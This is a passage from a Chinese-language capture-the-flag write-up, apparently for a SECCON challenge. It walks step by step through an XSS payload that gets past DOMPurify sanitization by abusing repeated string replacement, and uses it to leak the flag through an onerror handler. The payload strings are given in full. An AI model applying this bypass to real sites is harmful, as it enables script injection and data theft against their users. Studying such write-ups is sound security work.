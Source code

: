 这样第一次replace的时候匹配不上，第二次replace的时候emoji已经被替换了，就可以匹配到了，xss的sink就可以生效了。

所以，把message设置为

```
SECCON{<img src="}<script>\n{{emoji}}</script>">\n{{emoji}}ECCON{<img src="}<img src=1 onerror=alert(DOMPurify.removed[0].element.text)//">\n<script>SECCON{dummy}
```

这样就可以把flag alert出来了



#### 总结

来看一下payload是如何一步步生效的，首先是传入的message和flag拼起来

```
SECCON{<img src="}<script>\n{{emoji}}</script>">\n{{emoji}}ECCON{<img src="}<img src=1 onerror=alert(DOMPurify.removed[0].element.text)//">\n<script>SECCON{dummy}
```

经过一次DOMPurify.sanitize，flag被sanitize掉

```
SECCON{<img src="}<3Cscript>\n{{emoji}}</script>">\n{{emoji}}ECCON{<img src="}<img src=1 onerror=alert(DOMPurify.removed[0].element.text)//">\n
```

再经过一次replace，第一次赋值

```
SECCON{REDACTED}<script>\n{{emoji}}</script>">\n{{emoji}}ECCON{<img src="}<img src=1 onerror=alert(DOMPurify.removed[0].element.text)//">\n
```

alert的对象还没访问到的时候，message被取出来，替换emoji，此时emoji为

```
document.all[0].ownerDocument.defaultView.DOMPurify.removed[0].element.text
```

也就是第一次sanitize掉的flag

```
SECCON{dummy}
```

然后message被替换为

```
SECCON{REDACTED}<script>\nSECCON{dummy}</script>">\nSECCON{dummy}ECCON{<img src="}<img src=1 onerror=alert(DOMPurify.removed[0].element.text)//">\n
```

然后进行第二次DOMPurify.sanitize，script标签被删掉

```
SECCON{REDACTED}"&gt;\nSECCON{dummy}ECCON{<img src="}<img src=1 onerror=alert(DOMPurify.removed[0].element.text)//">\n
```

然后第二次replace，xss sink开始生效
